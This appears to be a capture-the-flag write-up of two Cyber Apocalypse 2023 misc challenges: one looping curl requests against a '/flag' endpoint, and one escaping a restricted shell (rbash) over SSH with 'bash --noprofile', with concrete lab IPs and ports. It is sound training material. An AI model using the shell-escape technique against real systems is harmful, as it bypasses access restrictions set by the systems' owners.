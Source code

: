 ## Persistence - very easy
- At the challenge overview tells us the `/flag` endpoint it retrieves random data for each `GET` request, but told us to keep trying for `1000` times.

![Persistence_overview.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Misc%20iamges/Persistence_overview.png)
- Each request sends random data like that.

![Persistence.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Misc%20iamges/Persistence.png)
- So there is no other choice but to send many requests to retrieve the flag from all random data, we can do that with a little script using bash.
```bash
$ for i in {1..1000}; do curl http://target_IP:PORT; done
```
- It wasn't continue else for a small number of requests and sent the flag.

![misc.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Misc%20iamges/misc.png)

-------
## Restricted - easy
- At first, I tried to connect with the `host IP` and its `PORT`, and it responded with a banner that there is an `SSH` service on this port.
```bash
$ nc 178.62.64.13 31674
SSH-2.0-OpenSSH_8.4p1 Debian-5+deb11u1
```
- With a little of enumeration in the attached files of challenge, there is a user is called `restricted` in the `sshd_config` file.

![Restricted_user.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Misc%20iamges/Restricted_user.png)
- I connected with the ssh with the `restricted` user.
```bash
$ ssh restricted@178.62.64.13 -p 31674 
```
- But if I tried to execute any commands, it will display an error message `command not found`.

![Restricted_rbash.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Misc%20iamges/Restricted_rbash.png)
- But through the error messages, I have gone to ask google about `rbash`, and I knew it is called a `restricted shell`.
- I did some searches also to how to bypass the Restricted shell and i have caught this resource from:
> https://null-byte.wonderhowto.com/how-to/escape-restricted-shell-environments-linux-0341685/
- I tried a lot of options to bypass it but this one succeeded.
- So we can use this option to escape the restricted shell:
```
ssh user@IP -t "bash --noprofile"
```
- Start a remote shell with an unrestricted profile.
```bash
$ ssh restricted@178.62.64.13 -p 31674 -t "bash --noprofile"
```

![Restricted_flag.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Misc%20iamges/Restricted_flag.png)
